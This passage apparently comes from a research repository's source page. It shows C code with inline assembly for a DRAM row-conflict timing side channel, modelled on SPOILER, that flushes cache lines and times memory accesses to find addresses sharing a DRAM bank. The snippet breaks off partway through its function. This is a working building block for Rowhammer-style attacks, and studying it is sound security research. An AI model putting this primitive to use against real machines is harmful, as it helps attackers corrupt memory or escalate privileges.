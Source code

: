 
- Usage of row-conflict side-channel.
```
// Assembly code for row-conflict attack, largely similar to SPOILER

#define clfmeasure(_memory, _memory2, _time)\
do{\
   register uint32_t _delta;\
   asm volatile(\
   "mov %%rdx, %%r11;"\
   "clflush (%%r11);"\
   "clflush (%%rbx);"\
   "mfence;"\
   "rdtsc;"\
   "mov %%eax, %%esi;"\
   "mov (%%rbx), %%ebx;"\
   "mov (%%r11), %%edx;"\
   "rdtscp;"\
   "sub %%esi, %%eax;"\
   "mov %%eax, %%ecx;"\
   : "=c" (_delta)\
   : "b" (_memory), "d" (_memory2)\
   : "esi", "r11"\
   );\
   *(uint32_t*)(_time) = _delta;\
}while(0)

void getContinuousBank(struct continuous_bank* return_bank, struct continuous_memory * continuous_buffer, uint8_t * buffer){
	return_bank->conflict = (int*)malloc(sizeof(int)*(continuous_buffer->length));
	clock_t cl = clock();

	//Running row_conflict on the detected contiguous memory to find addressess going into the same bank
	#define THRESH_ROW_CONFLICT 350	// Adjust after looking at c.txt, similar in concept to SPOILER's THREHS_HIGH value
	int conflict[PEAKS] = {0};
	int conflict_index = 0;
	int total;

	uint32_t tt = 0;  //the variable which will be used to store the time
	float timer = 0.0;

	printf("Testing a total of %d addresses\n", continuous_buffer->length);

	for (int p = continuous_buffer->start; p < continuous_buffer->end; p++)
	{
		total = 0;
		int cc = 0;
		for (int r = 0; r < ROUNDS2; r++)
		{			
			clfmeasure(&buffer[continuous_buffer->start*PAGE_SIZE], &buffer[p*PAGE_SIZE], &tt);
			if (tt < THRESH_OUTLIER)
			{
				total = total + tt;
				cc++;
			}
		}
		if (total/cc > THRESH_ROW_CONFLICT)
		{
			return_bank->conflict[conflict_index] = p;
			conflict_index++;
		}
	}
```